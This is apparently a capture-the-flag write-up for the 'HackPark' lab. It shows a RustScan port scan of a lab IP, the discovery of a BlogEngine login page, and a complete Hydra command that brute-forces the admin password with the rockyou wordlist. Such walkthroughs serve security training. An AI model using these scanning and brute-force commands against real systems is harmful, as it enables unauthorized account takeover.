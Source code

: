 ```yaml
---
layout: post
title:  "HackPark"
categories: blog
layout: post
---
```




# Scanning

Let's begin by scanning the target using RustScan.

```
rustscan -a 10.10.120.14 -r 1-65535 --ulimit 5000 -- -sVC
```

<img src="images/06.HackPark/01.png" height="700">

# Enumeration

We can see two open ports. Let's see what's running on port 80.

<img src="images/06.HackPark/02.png" height="700">

If we click on the menu icon, we can see the login page.

<img src="images/06.HackPark/03.png" height="400">

We can see that the login page belongs to blogengine.

<img src="images/06.HackPark/04.png" height="500">

Now, we will try to use the default credentials admin:admin to see if that works. But it failed. Now, let's bruteforce the password with the username admin as we know that the default username is admin.

First, we will fire up Burp Suite to see what type of request the login page is making to the web server. Let's enter admin:admin in the username and password fields and intercept this using Burp Suite.

<img src="images/06.HackPark/05.png" height="500">

We can see that the login page is making a POST request. We will now use Hydra to brute force the password field assuming the username is admin.

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.120.14 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=Pw49CE7XN99O07VsfmUKlS3GQsevl39oxTcHs0fj672xrsEdiwp26MjPpiJLmnJc%2Badroz9oDltpxOKHPbB6cf7nhiuXQBiHwnZYUwx%2BFAGXtU1YQQcxOXrvAntLHand12BsvenypZEkD5DkrYrd6pOBUBnwCzdk6T3Aco66LLlCpW4A&__EVENTVALIDATION=B93mjHyaWPm5JljuEQuMNVayeIlWC4kRbNsrSF9DjvDYBb6ZBhz%2Byag9pTRt8hhBdxWgdwlqd9DiLXamGJERhiMUxR814calYKBvOWaCNKv3zyDSzKVhONt5%2BvmcuOkDTIDPGB6Bpq0Dktu4om3tg%2BjlkZrV4I5NyuuANXrlQgJH71q8&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -v
```
